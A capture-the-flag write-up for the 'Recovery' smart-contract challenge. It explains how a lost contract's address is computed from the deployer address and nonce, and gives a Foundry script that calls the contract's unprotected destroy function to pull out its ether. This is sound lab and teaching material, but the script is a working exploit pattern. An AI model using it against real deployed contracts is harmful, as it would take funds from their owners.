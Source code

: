 # Recovery   
In this challenge, our goal is to recover (or remove) the 0.001 ether from a lost contract. The difficulty lies in the fact that we don’t know the address of that contract. To solve this, we need to calculate the address of the lost contract.

I found [this post](https://ethereum.stackexchange.com/questions/760/how-is-the-address-of-an-ethereum-contract-computed) extremely helpful in understanding how Ethereum contract addresses are computed. Essentially, the address of a contract is determined by hashing together the deployer’s address and the `nonce` (the number of transactions the deployer has sent). The formula is as follows:   
```solidity
address nonce1= address(uint160(uint256(keccak256(abi.encodePacked(bytes1(0xd6), bytes1(0x94), _origin, bytes1(0x01))))));
```
Here, `_origin` is the address of the deployer, and `nonce1` is the computed address of the lost contract.
To solve this challenge, I created a script that automates the process of calculating the lost contract address and recovering the funds:
```solidity
//SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

import {Script} from "forge-std/Script.sol";

contract SolvingScript is Script {
    address _origin = ; /* Your instance address */
    address nonce1 = payable(
        address(uint160(uint256(keccak256(abi.encodePacked(bytes1(0xd6), bytes1(0x94), _origin, bytes1(0x01))))))
    ); // Computed lost address

    function run() public {
        vm.startBroadcast();
        nonce1.call(abi.encodeWithSignature("destroy(address)", msg.sender));
        vm.stopBroadcast();
    }
}
```